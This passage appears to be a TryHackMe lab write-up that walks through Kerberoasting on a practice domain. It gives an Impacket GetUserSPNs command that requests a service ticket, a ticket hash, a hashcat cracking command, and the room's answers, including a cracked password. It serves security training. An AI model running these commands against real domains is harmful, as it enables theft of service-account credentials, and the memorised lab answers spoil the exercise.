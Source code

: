      ![image](https://github.com/user-attachments/assets/19f2ccdb-3cc5-4df1-8166-74733b0467a5)

Service Principal Name (SPN):  http/creds-harvestin.thm.red 

### 2: Request TGS Ticket (Kerberoasting)
- Now, request a TGS ticket for the SPN user (svc-user):

      python3 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.234.58 THM.red/thm -request-user svc-user
   - Output:

          $krb5tgs$23$*svc-thm$THM.RED$http/creds-harvestin.thm.red*$8f5de4211da1cd5715217[...]7bfa3680658dd9812ac061c5

  ![image](https://github.com/user-attachments/assets/e845b264-a62f-4019-90f7-d636f3539f13)

  Save this hash to a file (e.g., spn.hash).


### 3: Crack the TGS Ticket with Hashcat
- Use Hashcat mode 13100 (Kerberos 5 TGS-REP etype 23):

      hashcat -m 13100 spn.hash /usr/share/wordlists/rockyou.txt

![image](https://github.com/user-attachments/assets/bedd56ce-3668-4269-a3d2-90323b8fe2ad)


<br>

## _Answers_


Enumerate for SPN users using the Impacket GetUserSPNs script. What is the Service Principal Name for the Domain Controller?

        svc-thm
  ![image](https://github.com/user-attachments/assets/c1d0af4b-e1df-409d-858c-16c7786c9266)

      
After finding the SPN account from the previous question, perform the Kerberoasting attack to grab the TGS ticket and crack it. What is the password?

      Passw0rd1

  ![image](https://github.com/user-attachments/assets/ba7e78d4-4310-416c-a59a-5ad398decbd2)

  


<br>



